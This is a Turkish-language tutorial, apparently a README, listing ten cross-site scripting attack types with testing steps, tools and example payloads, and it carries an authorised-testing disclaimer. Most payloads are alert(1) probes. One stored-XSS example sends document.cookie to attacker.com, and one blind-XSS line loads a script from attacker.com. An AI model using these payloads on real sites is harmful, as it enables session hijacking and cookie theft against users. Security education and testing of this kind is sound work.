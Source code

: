 🛡️ XSS Saldırı Yöntemleri Rehberi (Kali Linux & Python Odaklı)
Bu rehber, XSS (Cross-Site Scripting) saldırılarının yaygın türlerini ve her biri için kullanılabilecek teknik ve araçları detaylandırır. Bilgiler yalnızca eğitim ve izinli test ortamları için hazırlanmıştır. Gerçek sistemlerde izinsiz kullanımı etik dışıdır ve yasal sonuçlara yol açabilir.

🎯 XSS Türleri ve Teknikleri
1. Reflected XSS (Yansıtmalı)
Reflected XSS, zararlı girdilerin sunucu tarafından yansıtılarak doğrudan kullanıcı tarayıcısında çalıştırılmasıdır.

Adımlar:

Hedef URL'de input parametresi bulun.

Tarayıcıda payload enjekte edin (ör: <script>alert(1)</script>).

Eğer cevapta payload geri dönüyorsa ve çalışıyorsa, Reflected XSS mevcuttur.

Kullanılabilir Araçlar:

XSStrike

Burp Suite (Manual testing)

Python + Selenium/Playwright scriptleri

Platform Gereksinimi:

Python 3.x, tarayıcı sürücüleri, VS Code veya terminal.

2. Stored XSS (Kalıcı)
Stored XSS, zararlı kodun veritabanına kaydedilerek diğer kullanıcılara gösterilmesidir.

Adımlar:

Girdi formu veya yorum alanına payload enjekte edilir.

Kod veritabanına kaydedilir.

Başka bir kullanıcı ilgili sayfayı açtığında XSS tetiklenir.

Araçlar:

OWASP Juice Shop (Test ortamı)

Burp Suite

Manuel Payload Injection (form testi)

Kullanım:

php-template
Kopyala
Düzenle
<script>fetch('http://attacker.com/cookie?c='+document.cookie)</script>
3. DOM-Based XSS
DOM XSS, input verilerinin sadece JavaScript tarafından işlenip manipüle edildiği saldırılardır.

Tespit:

Sayfa kaynağında XSS yoksa ama DevTools ile payload çalışıyorsa DOM XSS olabilir.

URL fragment (#) veya JavaScript kontrollü değişkenlerde test yapılır.

Araçlar:

DOM Invader (Burp Suite)

Chrome DevTools

Manual JS Debug

Örnek Test:

php-template
Kopyala
Düzenle
http://hedef.com/page#<script>alert(1)</script>
4. Event Handler XSS
HTML elementlerinin içine yerleştirilen event’lerle tetiklenir (onerror, onload, onclick).

Payload:

html
Kopyala
Düzenle
<img src=x onerror=alert(1)>
Kullanım Senaryosu:

Yorum sistemleri

Profil bio alanları

5. Mutation XSS (mXSS)
Tarayıcıların DOM sanitizasyonundaki hataları kullanır.

Araçlar:

mXSS tool (DOMPurify test kit)

Firefox Developer Tools

Payload:

html
Kopyala
Düzenle
<a><input autofocus onfocus=alert(1)></a>
6. Blind XSS
Payload hemen tetiklenmez, ama arka plandaki admin panel veya log okuyucular üzerinden çalıştırılır.

Test Şekli:

html
Kopyala
Düzenle
<script src="http://attacker.com/xss.js"></script>
Kullanım:

Webhook üzerinden XSS tetikleyicileri

Logger sistemleri

7. Polyglot XSS
Her ortamda çalışabilecek tek satırlık “çok amaçlı” payload’lardır.

Örnek:

html
Kopyala
Düzenle
"><script>alert(1)</script>
Amaç:

Filtreleri aşmak

Parametre dışı alanları tetiklemek

8. AngularJS/ReactJS XSS (Framework-Based)
Bazı JS framework'leri (Angular, Vue, React) içindeki özel injection zayıflıkları kullanılır.

Payload (Angular için):

html
Kopyala
Düzenle
{{constructor.constructor('alert(1)')()}}
Not: Sadece uygun sürümlerde çalışır.

9. JSON/REST API XSS
Uygulamanın API response’unda yetersiz encoding varsa, XSS payload’ları JSON içinde çalışabilir.

Kullanım:

JSONP çağrıları

API hata mesajları içine payload yerleştirme

10. File Upload XSS
HTML içeren bir dosyanın (SVG, HTML, XML) yüklenmesi ile tetiklenir.

Payload:

<svg onload=alert(1)> içeren .svg dosyası

Test:

Açılan dosya direkt tarayıcıda çalışıyorsa ve JavaScript tetikleniyorsa XSS var.

🔧 Gereksinimler
Araç	Platform	Özellikler	Kurulum
XSStrike	Python	Otomatik Reflected/DOM XSS testi	git clone, pip install -r requirements
Burp Suite	Java	Proxy, Manual XSS tespiti, DOM analiz	Resmi site üzerinden indirilmeli
Selenium	Python	Tarayıcı üzerinden XSS tetikleme	pip install selenium, ChromeDriver
OWASP ZAP	Java	GUI tabanlı güvenlik tarama, XSS tespiti	apt install zaproxy
Playwright	Python/Node.js	Headless tarayıcı ile payload test	pip install playwright
